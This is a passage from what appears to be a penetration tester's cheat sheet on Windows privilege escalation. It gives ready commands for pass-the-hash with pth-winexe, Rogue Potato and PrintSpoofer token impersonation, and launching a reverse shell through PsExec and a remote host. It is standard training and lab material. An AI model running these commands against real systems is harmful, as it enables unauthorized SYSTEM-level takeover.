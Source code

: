```powershell
C:\Cas> pth-winexe -U '<NTLM hash>' //<IP> cmd.exe
```

## Token Impersonation

### Rogue Potato

??? info "info"
    If the machine is >= Windows 10 1809 & Windows Server 2019 — Try Rogue Potato  
    If the machine is < Windows 10 1809 < Windows Server 2019 — Try Juicy Potato

Get reverse shell of local service

```powershell
C:\Cas> PsExec64.exe -i -u "nt authority\local service" C:\Cas\shell.exe
```

*“If you have SeAssignPrimaryToken or SeImpersonateprivilege, you are SYSTEM”*

```powershell
C:\Cas> .\RoguePotato.exe -r <remote-host> -e "C:\Cas\shell.exe" -l 443
```

### PrintSpoofer

```powershell
C:\Cas> PrintSpoofer.exe -c shell.exe -i
```

## Automated Enumeration

- _windows-privesc-check_

- *winPEASany_ofs.exe*
